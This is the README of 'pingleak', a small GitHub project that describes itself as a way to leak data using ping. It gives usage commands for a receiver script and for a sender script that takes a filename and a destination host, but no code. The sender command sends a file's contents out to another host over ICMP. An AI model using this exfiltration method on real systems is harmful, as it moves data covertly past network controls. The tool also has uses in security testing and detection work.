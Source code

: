 # pingleak
leak data using ping :)

# Usage

## On the receiving end
`./receiver.sh <sender (optional)>`
![Image of Receiving end]
(https://github.com/atcasanova/pingleak/blob/main/receiver.png?raw=true)


## On the sending end
`./pingleak.sh <filename> <host>`
![Image of sending end]
(https://github.com/atcasanova/pingleak/blob/main/sender.png?raw=true)
